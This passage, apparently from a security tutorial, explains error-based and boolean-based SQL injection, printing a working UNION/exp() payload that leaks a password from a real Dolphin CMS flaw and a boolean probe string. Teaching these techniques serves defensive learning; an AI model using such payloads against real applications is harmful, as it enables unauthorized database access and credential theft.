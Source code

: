 ```
```
Notice the strategic placement of the ' character that allows the attacker to insert SQL syntax and extend the SQL query!

## Error-Based Injections
In an error-based injection, an attacker writes a SQL query to force the application to return an error message with sensitive data.

Let’s take a look at the example below from an [actual vulnerability](https://packetstormsecurity.com/files/138790/Dolphin-7.3.0-SQL-Injection.html). In this example, the attacker’s input causes an error that spits out the password.
```
asdf' UNION select 1, exp(~(select*from(SELECT Password FROM profiles WHERE ID=1)x)); -- -
```
### SQL query:
```
SELECT user_id FROM users WHERE username='asdf' UNION select 1, exp(~(select*from(SELECT Password FROM profiles WHERE ID=1)x)); -- -
```
SQL completes that inside statement getting the password for the profile `ID 1`, but errors on the value type that should be returned. This is the error that accidentally gives away the password!
```
Database access error. Description: DOUBLE value is out of range in 'exp(~((select 'SUP3r_S3cur3_P@a55w0rd!' from dual)))'<?xml version='1.0' encoding='UTF-8'?><ray><result value="Error saving setting." status="failed" /></ray>
```
## Boolean-Based Injections
Boolean-based injections involve SQL statements that can confirm TRUE/FALSE questions about the database. When using this method, the attacker take note of the difference in the application’s response (changes in HTML, HTTP response code, or other web session data) when the result of their question is true or false.

Suppose a website has a search box that will return the username and email of a specific user ID. The SQL query below is used:
```
SELECT username, email FROM users WHERE id = '[USER INPUT]';
```
In a normal search for `id 1` , the website will give back the username admin and email `admin@site.com `and display everything as normal.

Someone sneaky can use the `AND` keyword to see what happens on the website when the SQL statement is false.

For example, if the search input was this,
```
1' AND '1' = '2
```
and this was the SQL query that was run,
```
SELECT username, email FROM users WHERE id = '1' AND '1' = '2';
```
We won’t be getting a username and email back, since `1` is never equal to `2`. At this point, the attacker makes note of what happens on the website when the statement is false.
